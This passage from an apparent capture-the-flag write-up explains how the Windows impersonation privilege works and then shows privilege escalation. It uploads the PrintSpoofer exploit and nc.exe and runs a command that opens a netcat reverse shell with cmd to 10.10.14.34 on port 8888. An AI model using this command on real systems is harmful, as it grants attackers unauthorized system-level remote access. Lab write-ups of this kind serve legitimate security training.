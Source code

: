 
##### Example of Impersonate Privilege Working: {#example-of-impersonate-privilege-working}

-   **How Impersonation Works**:
    -   The client connects to the service using their credentials (via Windows Authentication).
    -   The service, upon needing to access other resources (like file shares), uses the client's identity instead of its own.
    -   This is possible because the service account is given a special privilege called "Impersonate a client after authentication".

-   **Simple Text-Based Diagram of Impersonation Mechanism Working**:
    ```md
    [Client]
        |
        | (1) Authenticates using Windows Auth
        v
    [Server (SQL/IIS)]
        |
        | (2) Needs to access other resources
        v
    [Impersonation Process]
        |
        | (3) Server adopts the client's identity
        v
    [Other Resources]
      (e.g., File Shares)
    ```

    1.  **Client to Server Authentication**: The client authenticates to the server using Windows authentication.
    2.  **Resource Request**: The server requires access to additional resources (like files).
    3.  **Impersonation**: The server impersonates the client's identity to gain the same permissions the client has.
    4.  **Access Resources**: The server, acting as the client, accesses external resources (file shares, etc.).


## 4. Ownership: {#4-dot-ownership}

1.  **I upload the PrintSpoofer exploit binary**:
    -   {{< figure src="/ox-hugo/2024-09-09-101932_.png" >}}
    -   **Source**: <https://github.com/itm4n/PrintSpoofer>

2.  **I upload my nc.exe binary**:
    -   {{< figure src="/ox-hugo/2024-09-09-101812_.png" >}}

3.  **I run the exploit**:
    -   `.\printspoofer.exe -c "C:\Users\Public\Desktop\nc.exe 10.10.14.34 8888 -e cmd"`
        -   {{< figure src="/ox-hugo/2024-09-09-102008_.png" >}}
